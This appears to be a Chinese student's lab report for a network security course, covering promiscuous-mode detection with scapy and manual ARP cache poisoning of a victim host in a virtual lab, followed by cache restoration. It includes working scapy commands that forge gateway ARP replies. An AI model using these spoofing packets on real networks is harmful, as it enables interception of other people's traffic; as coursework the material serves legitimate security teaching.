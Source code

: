 ##  实验四：网络监听

### 节点信息

- 攻击者主机
  - `08:00:27:b9:1c:0b`/`eth0`
  - `172.16.111.142`
- 受害者主机
  - `08:00:27:f0:55:87`/`eth0`
  - `172.16.111.149`
- 网关
  - `08:00:27:c8:81:af`/`enp0s9`
  - `172.16.111.1`
### 实验一：检测局域网中的异常终端

- ```
  # 在受害者主机上检查网卡的「混杂模式」是否启用
  ip link show eth0
  ```
- ![检查受害者混杂模式是否开启](img/victim_ip_link.png)

- ```
  # 在攻击者主机上开启 scapy，不提升权限有些操作无法进行
  sudo scapy
  ```
- ![scapy开启](img/scapy.png)

- ```
  # 在 scapy 的交互式终端输入以下代码回车执行
  pkt = promiscping("172.16.111.149")
  ```
- ![](img/pkt1.png)

- ```
  # 回到受害者主机上开启网卡的『混杂模式』
  # 手动开启该网卡的「混杂模式」
  sudo ip link set eth0 promisc on
  # 此时会发现输出结果里多出来了 PROMISC 
  ip link show eth0
  ```
- ![](img/promisc_on.png)

- ```
  # 回到攻击者主机上的 scapy 交互式终端继续执行命令
  # 观察两次命令的输出结果差异
  pkt = promiscping("172.16.111.149")
  ```
- ![](img/pkt2.png)

- ```
  # 在受害者主机上
  # 手动关闭该网卡的「混杂模式」
  sudo ip link set eth0 promisc off
  ```
- ![](img/promisc_off.png)

- 查阅资料可知，promiscping命令会发出ARP广播包：
  - 混杂模式 接收所有经过网卡的数据包，不验证MAC地址。
  - 普通模式 网卡只接收发给本机的包，验证MAC地址。
- 在混杂模式下，受害者主机才能接收到promiscping命令发出的这数据包。
### 实验二：手工单步“毒化”目标主机的ARP缓存

#### 获取当前局域网的网关MAC地址

- ```
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

  # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()
  ```
- ![](img/ARP_request.png)
- ```
  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2)

  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc
  ```
- ![](img/gw_mac.png)
#### 伪造网关的ARP响应包

- ```
  # 准备发送给受害者主机
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  # 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
  arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.149", hwdst="08:00:27:b9:1c:0b")
  ```
- ![](img/sendp_arpspoofed.png)
- 受害者主机上的ARP缓存中网关的MAC地址已被替换为攻击者主机的MAC地址
- ```
  ip neigh
  ```
- ![](img/replace_mac.png)
#### 恢复受害者主机的ARP缓存记录

- ```
  ## 伪装网关给受害者发送 ARP 响应
  restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:c8:81:af", pdst="172.16.111.149", hwdst="08:00:27:f0:55:87")
  sendp(restorepkt1, count=100, inter=0.2)
  ```
- ![](img/send_ARP.png)
- 受害者主机刷新网关ARP记录
- ```
  ## 在受害者主机上尝试 ping 网关
  ping 172.16.111.1
  ## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ip neigh
  ```
- ![](img/ping_gw.png)
- ![](img/ip_neigh_2.png)

### 参考

[老师的课件](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
[师姐的作业](https://github.com/CUCCS/2020-ns-public-LyuLumos/blob/ch0x04/ch0x04/%E7%BD%91%E7%BB%9C%E7%9B%91%E5%90%AC.md)